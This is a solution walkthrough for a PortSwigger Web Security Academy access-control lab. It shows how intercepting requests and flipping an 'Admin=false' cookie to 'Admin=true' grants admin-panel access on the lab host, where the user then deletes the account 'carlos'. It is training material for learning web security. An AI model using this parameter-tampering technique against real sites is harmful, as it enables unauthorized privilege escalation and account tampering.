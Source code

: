# Lab: User role controlled by request parameter
# https://portswigger.net/web-security/learning-paths/server-side-vulnerabilities-apprentice/access-control-apprentice/access-control/lab-user-role-controlled-by-request-parameter#

```bash
# We know admin panel url so let's try to visit it:

https://0a14004904ecc36283df8c34006a002a.web-security-academy.net/admin

# Response:

 Admin interface only available if logged in as an administrator
```

```bash
# Open intercept and login to wiener peter.

# Change Admin value to:
Admin=true;

# Keep Interception on and visit:
https://0a14004904ecc36283df8c34006a002a.web-security-academy.net/admin

```

```bash
# Keep changing admin=false to admin=true in all request.
# Click to delete next to carlos and still don't close intercept.
# Keep changing admin value to true and you will complete the lab.

```
